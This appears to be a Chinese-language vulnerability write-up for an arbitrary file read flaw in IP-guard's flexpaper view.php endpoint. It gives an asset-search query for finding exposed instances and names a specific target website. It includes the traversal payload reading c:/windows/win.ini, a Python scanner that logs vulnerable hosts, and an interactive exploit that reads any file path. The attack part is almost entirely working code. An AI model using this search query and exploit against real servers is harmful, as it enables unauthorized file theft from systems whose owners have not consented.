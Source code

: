 ## 一、资产搜索

```
"IP-guard" && icon_hash="2030860561"
```

## 二、网站测试

```
http://pm.binhong-tech.top
```

## 三、验证漏洞

```
/ipg/static/appr/lib/flexpaper/php/view.php?doc=c:/windows/win.ini&format=pdf&page=
```

![image-20240914195256686](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914195256686.png)

## 四、POC

```
def poc(target):
    payload = "/ipg/static/appr/lib/flexpaper/php/view.php?doc=c:/windows/win.ini&format=pdf&page="
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "fonts" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从C:目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = f"/ipg/static/appr/lib/flexpaper/php/view.php?doc={content}&format=pdf&page="
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914195525411](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914195525411.png)

![image-20240914195747070](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914195747070.png)